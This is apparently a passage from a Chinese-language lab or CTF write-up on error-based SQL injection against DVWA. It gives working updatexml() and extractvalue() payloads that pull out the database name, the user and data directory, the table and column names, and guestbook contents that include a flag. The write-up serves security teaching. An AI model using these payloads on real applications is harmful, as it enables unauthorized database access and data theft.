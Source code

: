 ```
1' and updatexml(1,concat(0x7e,mid((select comment from guestbook),1,32)),3)#
```

![image-20220501103215981](https://yvling-typora-image-1257337367.cos.ap-nanjing.myqcloud.com/typora/image-20220501103215981.png)

```
1' and updatexml(1,concat(0x7e,mid((select comment from guestbook),32,32)),3)#
```

![image-20220501103300467](https://yvling-typora-image-1257337367.cos.ap-nanjing.myqcloud.com/typora/image-20220501103300467.png)

拼接得到完整的flag：PTB{3b5adbf6-0713-40ef-b6e7-1b8a50d5b1e5}

![image-20220501103330653](https://yvling-typora-image-1257337367.cos.ap-nanjing.myqcloud.com/typora/image-20220501103330653.png)



extractvalue()函数与updatexml()函数大同小异，都是通过xpath路径错误报错。

**爆出数据库名：**

```
1' and extractvalue(1,concat(0x7e,database()))#
```

![image-20220501103810595](https://yvling-typora-image-1257337367.cos.ap-nanjing.myqcloud.com/typora/image-20220501103810595.png)

**爆出用户名及用户根目录：**

```
1' and extractvalue(1,concat(0x7e,user(),0x7e,@@datadir,0x7e))#
```

![image-20220501104020436](https://yvling-typora-image-1257337367.cos.ap-nanjing.myqcloud.com/typora/image-20220501104020436.png)

**爆出表名：**

```
1' and extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='dvwa'),0x7e))#
```

![image-20220501104542323](https://yvling-typora-image-1257337367.cos.ap-nanjing.myqcloud.com/typora/image-20220501104542323.png)

**爆出字段名：**

```
1' and extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='guestbook'),0x7e))#
```

![image-20220501104643331](https://yvling-typora-image-1257337367.cos.ap-nanjing.myqcloud.com/typora/image-20220501104643331.png)

**爆出数据库内容：**

```
1' and extractvalue(1,concat(0x7e,mid((select comment from guestbook),1,32)))#
```

